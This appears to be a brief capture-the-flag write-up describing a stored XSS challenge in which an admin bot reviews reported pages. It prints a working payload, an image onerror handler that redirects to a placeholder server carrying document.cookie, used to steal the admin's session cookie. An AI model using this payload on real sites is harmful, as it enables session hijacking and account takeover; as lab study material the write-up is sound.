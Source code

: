 > xss (stored?)

So apparently when i press reprot admin, some guy in the back end just opens the site and review everything??? Thats like insane 25/8 support (25hours a day, 8 days a week, explaining the joke to future me)

![image](https://github.com/user-attachments/assets/86879cff-b63c-473d-a1e3-0148973fab38)

lets start commenting. Triggered an XSS somewhere, then the instance died. Now back with a new one with new tricks.

In the end i broke the site with this payload, cuz it keeps redirecting me. 

![image](https://github.com/user-attachments/assets/7a3a8063-c5d3-425c-9ee0-87fc7ff76140)

```<img src=x onerror="location.href='http://yourserver.com/?c='+document.cookie">```

but on the bright side, we got the admin's cookie by also redirectling the poor fella =)

![image](https://github.com/user-attachments/assets/c4c656ad-7fc6-4146-8e54-08b5fe16d7b4)


